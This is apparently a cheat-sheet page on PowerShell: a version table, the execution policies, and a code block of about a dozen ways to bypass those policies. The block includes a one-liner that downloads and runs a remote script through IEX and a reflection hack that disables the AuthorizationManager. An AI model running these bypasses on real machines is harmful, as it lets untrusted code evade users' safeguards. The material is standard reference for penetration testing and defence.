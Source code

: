 ### PowerShell versions

| Version | Release Date | Windows Version |
| ------- | ------------ | --------------- |
| 1.0     | Nov 2006     | Win XP          |
| 2.0     | Oct 2009     | Win 7           |
| 3.0     | Sep 2012     | Win 8           |
| 4.0     | Oct 2013     | Win 8.1         |
| 5.0     | Apr 2014     | Win 10          |

### Execution policy

[Execution policies](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-6) are designed to protect users, but they really just get in the way.

There are several different policies:

* `Restricted` - permits individual commands, but will not run scripts
* `AllSigned` - scripts can run, but all (remote and locally-written) scripts must be signed by a trust publisher
* `RemoteSigned` - scripts can run, but requires digital signatures on scripts downloaded from the internet (but not locally-written scripts)
* `Unrestricted` - unsigned scripts can run, but warns the user before running scripts downloaded from the internet
* `Bypass` - nothing is blocked and there are no warnings or prompts
* `Undefined` - there is no execution policy set in the current scope

Here's how to bypass them:

```posh
# pipe your script to a PowerShell process
Write-Host "<script contents>" | powershell.exe -noprofile -

# pipe your script from a file
Get-Content script.ps1 | powershell.exe -noprofile -
type script.ps1 | powershell.exe -noprofile -

# piping to Invoke-Expression
Get-Content script.ps1 | Invoke-Expression

# download and run via IEX
IEX(New-Object Net.WebClient).DownloadString('https://bit.ly/myscript')

# execute via -Command switch
powershell.exe -Command "Write-Host 'Executing some PowerShell"

# run via Invoke-Command
Invoke-Command -ScriptBlock {Write-Host "Executing some more PowerShell"}

# use the bypass execution policy
powershell.exe -ExecutionPolicy Bypass -File script.ps1

# set the execution policy for the process scope
Set-ExecutionPolicy Bypass -Scope Process

# disable ExecutionPolicy by swapping out the AuthorizationManager
function Disable-ExecutionPolicy {($ctx = $executioncontext.gettype().getfield("_context","nonpublic,instance").getvalue($executioncontext)).gettype().getfield("_authorizationManager","nonpublic,instance").setvalue($ctx, (new-object System.Management.Automation.AuthorizationManager "Microsoft.PowerShell"))}
Disable-ExecutionPolicy script.ps1
```